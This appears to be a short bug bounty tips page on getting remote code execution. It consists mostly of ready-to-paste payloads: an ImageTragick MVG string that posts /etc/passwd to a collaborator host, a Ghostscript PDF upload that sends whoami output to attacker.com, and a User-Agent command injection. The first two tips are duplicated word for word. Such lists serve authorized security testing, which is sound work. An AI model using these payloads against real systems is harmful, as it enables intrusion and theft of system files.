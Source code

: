#                                       Finding RCE: Bug bounty Tips

## TIP-1

    If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.
    
## TIP-2 

    If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.
  
  
## TIP-3 

    Recon to RCE:
    Google "upload" site:”target" -> upload form -> ImageTragick MVG -> RCE

    PoC:
    push graphic-context viewbox 0 0 200 200 fill 'url(https://example.123 "|curl -d "@/etc/passwd" -X POST https://xxx.burpcollaborator.net/test1")' pop graphic-context
    

   [This Tool imgetragick get shell](https://github.com/vishwaraj101/imagetragick)
    
## TIP-4 

   [RCE on PDF upload:](https://twitter.com/huntmost/status/1192670565963911169)

    Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
    Content-Type: application/pdf

    %!PS
    currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
    .putdeviceparams
    quit
    
   [Hackerone report](https://hackerone.com/reports/403417)
   
## TIP-5 
```bash
    User-Agent: `curl - v http://BurpCollaborator.com$(id)`
 # Get command injection
 ```
   
   
   
   
   
